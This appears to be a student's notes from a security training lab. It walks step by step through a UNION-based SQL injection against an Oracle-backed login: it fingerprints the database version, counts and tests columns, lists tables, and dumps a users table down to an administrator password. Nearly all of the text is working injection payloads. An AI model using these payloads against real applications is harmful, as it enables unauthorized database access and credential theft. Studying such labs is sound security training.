




# Goal: Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version
        - Unsuccessful
    - ' UNION SELECT version()--
        - Unsuccessful
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version--
        - SUCCESS
        -   
    - Determine number of columns needed for UNION
        - ' ORDER BY (number)--
            - stop when you get an error
        - ' ORDER BY 3-- yielded error so we know there are 2 columns
            - ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        - ' UNION SELECT 'a',NULL,NULL,... FROM dual--
            - Oracle requires selection from a table
            - dual is a dummy table that anyone can access :)
        - ' UNION SELECT 'a',NULL FROM dual-- ||| ' UNION SELECT NULL,'a' FROM dual-- both worked
            - both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
- Get list of table names
    - ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
    - 
- CRTL-F 'user' to find potential tables
    - USERS_ELWKUV (worked!)
    - USER$
- Get columns for the tables ()
    - PASSWORD_UOJZWJ | USERNAME_WRUUZC
    - 
- Get the column data
    - ' UNION SELECT USERNAME_WRUUZC,PASSWORD_UOJZWJ FROM USERS_ELWKUV--
    - 
- Admin Info
    - uname: administrator
    - pword: b4if4ckvox1tsk8wlgjx

